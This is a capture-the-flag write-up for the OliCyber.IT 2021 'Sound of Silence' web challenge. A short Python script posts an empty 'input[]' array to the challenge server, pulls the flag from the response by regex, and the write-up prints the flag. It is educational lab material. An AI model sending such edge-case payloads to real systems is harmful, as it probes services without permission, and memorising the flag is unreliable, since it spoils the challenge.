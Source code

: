#   OliCyber.IT 2021 - DEMO Competizione nazionale

# Sound of Silence – Writeup

## Challenge Description

Devi dirmi qualcosa ma devi stare in silenzio, ne sei capace?

Site: [http://soundofsilence.challs.olicyber.it](http://soundofsilence.challs.olicyber.it)

---
## Vulnerability

The application generates a waveform (volume signal) based on the user’s input. By submitting an **empty input**, we essentially send "silence."
This special case triggers the server to reveal the flag in the HTTP response.
---
## Exploit

```python
import requests
import re

url = 'http://soundofsilence.challs.olicyber.it/'
r = requests.post(url, data={'input[]': ''})
flag = re.findall(r'flag\{.*?\}', r.text, re.DOTALL)
print(flag[0])
```
---
## Code Analysis

1. **Endpoint Interaction**

   * The exploit sends a POST request with the parameter `input[]` set to an empty string.
   * This simulates silence (no waveform).

2. **Server Behavior**

   * The challenge is built to output the flag when silence is provided as input.
   * This behavior is hidden from normal usage but can be exploited with direct requests.

3. **Regex Extraction**

   * The regex pattern `flag\{.*?\}` captures the flag from the response body.
   * The first match is then printed.
---
## Exploitation Steps

1. Discover the input parameter controlling the waveform (`input[]`).
2. Send silence as input by setting it to an empty string.
3. Receive the server’s special response containing the flag.
4. Extract the flag with regex.
---
## Solution

Running the exploit retrieves the flag:

```
flag{w0w_you_jus7_found_the_s0und_of_silenc3!}
```
---
## Key Takeaway

This challenge shows how **special input values** (like silence in an audio-based system) can lead to unintended behavior. Edge cases must always be handled securely, as they may leak sensitive data such as flags.
